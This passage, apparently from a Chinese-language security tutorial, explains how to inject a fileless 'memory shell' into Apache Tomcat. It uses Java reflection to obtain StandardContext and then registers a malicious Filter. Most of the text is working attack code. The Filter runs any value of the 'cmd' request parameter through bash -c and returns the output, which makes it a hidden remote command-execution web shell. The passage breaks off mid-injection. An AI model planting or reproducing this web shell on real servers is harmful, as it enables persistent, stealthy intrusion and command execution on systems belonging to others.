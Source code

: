 
```java
ServletContext servletContext = request.getServletContext();
Field appctx = servletContext.getClass().getDeclaredField("context");
appctx.setAccessible(true);
// ApplicationContext 为 ServletContext 的实现类
ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

Field stdctx = applicationContext.getClass().getDeclaredField("context");
stdctx.setAccessible(true);
// 这样我们就获取到了 context 
StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

```


其它获取`standardContext`对象的方法：

- 如果没有request对象的话可以从当前线程中获取
https://zhuanlan.zhihu.com/p/114625962
- 从MBean中获取
https://scriptboy.cn/p/tomcat-filter-inject/

获取到`standardContext`后就可以注入内存马了，大致流程如下：

1. 创建一个恶意 Filter
2. 利用 FilterDef 对 Filter 进行一个封装
3. 将 FilterDef 添加到 FilterDefs 和 FilterConfig
4. 创建 FilterMap ，将我们的 Filter 和 urlpattern 相对应，存放到 filterMaps中（由于 Filter 生效会有一个先后顺序，所以我们一般都是放在最前面，让我们的 Filter 最先触发）

代码如下：


```java
Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
Configs.setAccessible(true);
Map filterConfigs = (Map) Configs.get(standardContext);
// 首先判断名字是否存在，如果不存在我们就进行注入
  if (filterConfigs.get(name) == null){
        // 创建恶意 Filter
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {
            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                if (req.getParameter("cmd") != null){
                    byte[] bytes = new byte[1024];
                    Process process = new ProcessBuilder("bash","-c",req.getParameter("cmd")).start();
                    int len = process.getInputStream().read(bytes);
                    servletResponse.getWriter().write(new String(bytes,0,len));
                    process.destroy();
                    return;
                }
                filterChain.doFilter(servletRequest,servletResponse);
            }

            @Override
            public void destroy() {

            }

        };
```
